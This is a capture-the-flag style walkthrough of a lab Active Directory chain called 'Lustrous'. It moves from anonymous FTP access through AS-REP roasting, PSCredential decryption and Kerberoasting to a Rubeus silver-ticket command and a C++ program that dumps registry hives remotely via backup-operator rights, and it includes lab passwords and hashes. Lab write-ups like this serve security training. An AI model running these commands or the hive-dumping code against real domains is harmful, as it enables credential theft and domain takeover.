 # Lustrous (chain) (medium)

## port scan

![](walkthrough_20240411131333242.png)

![](walkthrough_20240411120000539.png)

## service enumeration

ftp allow anonymous login

![](walkthrough_20240411115748466.png)

some user directory

![](walkthrough_20240411115819698.png)

have a users.csv

![](walkthrough_20240411120158629.png)

![](walkthrough_20240411120215821.png)

![](walkthrough_20240411120549548.png)

## ASREPRoast

ben.cox user lack of Kerberos pre-authentication

![](walkthrough_20240411120752163.png)

![](walkthrough_20240411120959828.png)

we can winrm into LUSMS

![](walkthrough_20240411122234308.png)

## privilege escalation on lusms

there have admin.xml (PSCred)

![](walkthrough_20240411122350299.png)

we can use those powershell command get plain password

```powershell
$AdminCred = Import-Clixml -Path C:\users\ben.cox\desktop\admin.xml
$Password = $AdminCred.GetNetworkCredential().Password
```

![](walkthrough_20240411122957202.png)

![](walkthrough_20240411123200016.png)

## spn user

there are some service account

![](walkthrough_20240411125825486.png)

hashcat

![](walkthrough_20240411130043908.png)

now we have svc_web password

convert to hash

```bash
python -c 'import hashlib,binascii; print(binascii.hexlify(hashlib.new("md4", "iydgTvmujl6f".encode("utf-16le")).digest()))'
```

![](walkthrough_20240411140926704.png)

## silver ticket

![](walkthrough_20240411140823406.png)

the tony.ward is backup

we can use rubeus to make a silver ticket login web page as `tony.ward` user. (those sid/id get from bloodhound)

```
dotnet inline-execute /opt/Rubeus.exe silver /service:http/lusdc.lustrous.vl /rc4:e67af8b3d78df5a02eb0d57b6cb60717 /user:tony.ward /domain:lustrous.vl /sid:S-1-5-21-2355092754-1584501958-1513963426 /id:1114 /nowrap /ptt
```

![](walkthrough_20240411135910226.png)

```powershell
powershell Invoke-WebRequest -Uri http://lusdc.lustrous.vl/Internal -UseDefaultCredentials -UseBasicParsing | Select-Object -Expand Content
```

![](walkthrough_20240411140048121.png)

## abuse backup admin

there have a code can remote dump sam with backup user

https://github.com/Wh04m1001/Random/blob/main/BackupOperators.cpp

```cpp
#include <stdio.h>
#include <windows.h>

void MakeToken() {
    HANDLE token;
    const char username[] = "tony.ward";
    const char password[] = "U_cPVQqEI50i1X";
    const char domain[] = "lustrous.vl";

    if (LogonUserA(username, domain, password, LOGON32_LOGON_NEW_CREDENTIALS, LOGON32_PROVIDER_DEFAULT, &token) == 0) {
        printf("LogonUserA: %d\n", GetLastError());
        exit(0);
    }
    if (ImpersonateLoggedOnUser(token) == 0) {
        printf("ImpersonateLoggedOnUser: %d\n", GetLastError());
        exit(0);
    }
}

int main()
{
    HKEY hklm;
    HKEY hkey;
    DWORD result;
    const char* hives[] = { "SAM","SYSTEM","SECURITY" };
    const char* files[] = { "C:\\windows\\temp\\sam.hive","C:\\windows\\temp\\system.hive","C:\\windows\\temp\\security.hive" };

    //Uncomment if using alternate credentials.
    MakeToken();

    result = RegConnectRegistryA("\\\\lusdc.lustrous.vl", HKEY_LOCAL_MACHINE,&hklm);
    if (result != 0) {
        printf("RegConnectRegistryW: %d\n", result);
        exit(0);
    }
    for (int i = 0; i < 3; i++) {

        printf("Dumping %s hive to %s\n", hives[i], files[i]);
        result = RegOpenKeyExA(hklm, hives[i], REG_OPTION_BACKUP_RESTORE | REG_OPTION_OPEN_LINK, KEY_READ, &hkey);
        if (result != 0) {
            printf("RegOpenKeyExA: %d\n", result);
            exit(0);
        }
        result = RegSaveKeyA(hkey, files[i], NULL);
        if (result != 0) {
            printf("RegSaveKeyA: %d\n", result);
            exit(0);
        }
    }
}

```

compile code

```bash
x86_64-w64-mingw32-g++ ./dump.cpp -o dump
```

those file will save at dc machine

![](walkthrough_20240411150636036.png)

we can use smbclient download those file

![](walkthrough_20240411150617663.png)

use pypykatz to get dc machine hash

![](walkthrough_20240411151014308.png)

dump all!

![](walkthrough_20240411151417319.png)

![](walkthrough_20240411151527456.png)
